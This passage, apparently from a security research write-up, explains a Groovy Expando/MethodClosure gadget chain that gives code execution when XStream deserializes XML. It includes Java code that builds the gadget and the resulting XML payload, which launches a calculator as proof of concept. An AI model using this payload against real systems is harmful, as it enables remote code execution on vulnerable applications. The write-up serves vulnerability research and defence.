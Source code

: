 ```
    addEntry(hash, key, value, i);
    return null;
}
```

At *[4]* `hashCode` is called, which means we can finally get code injection upon object reconstruction:

```java
MethodClosure methodClosure = new MethodClosure(new ProcessBuilder("gnome-calculator"), "start");
Expando maliciousPanda = new Expando();
maliciousPanda.setProperty("hashCode", methodClosure);
HashMap<Expando, Integer> mymap = new HashMap();
mymap.put(maliciousPanda, 123); // triggers gnome-calculator
```

It's also worth mentioning, in order to produce the gadget for Groovy `MethodClosure` in `XStream`, you need to do one slight trick:

```java
public class Main {
    public static void main(String[] args) throws Exception {
        Map map = new HashMap<Expando, Integer>();
        Expando expando = new Expando();
        MethodClosure methodClosure = new MethodClosure(new java.lang.ProcessBuilder(cmd), "start");
        //To avoid throwing an exception, change the hashCode to another name for the time being. 
        expando.setProperty( "InciteTeam_hashCode" , methodClosure);
				map.put(expando, 1337 );
        //Serialize the object
        XStream xs = new XStream();
        String payload =  xs.toXML(map).replace("InciteTeam_hashCode", "hashCode");
        return payload;  
    }
}
```

The reason we set the property to `InciteTeam_hashCode` is because the `hashCode` method of the `Expando` instance will look for the `hashCode` property and will execute our gadget if its available. We can't marshal the payload to XML correctly without executing the gadget on our own system! By doing a small trick and setting the property name to `InciteTeam_hashCode` and modifying the name after marshalling, it's possible to prevent the exception and have our payload displayed.

Here is the produced payload:

```xml
<map>
  <entry>
    <groovy.util.Expando>
      <expandoProperties>
        <entry>
          <string>hashCode</string>
          <org.codehaus.groovy.runtime.MethodClosure>
            <delegate class="java.lang.ProcessBuilder">
              <command>
                <string>calc</string>
              </command>
              <redirectErrorStream>false</redirectErrorStream>
            </delegate>
            <owner class="java.lang.ProcessBuilder" reference="../delegate"/>
            <resolveStrategy>0</resolveStrategy>
            <directive>0</directive>
            <parameterTypes/>
            <maximumNumberOfParameters>0</maximumNumberOfParameters>
            <method>start</method>
          </org.codehaus.groovy.runtime.MethodClosure>
        </entry>
```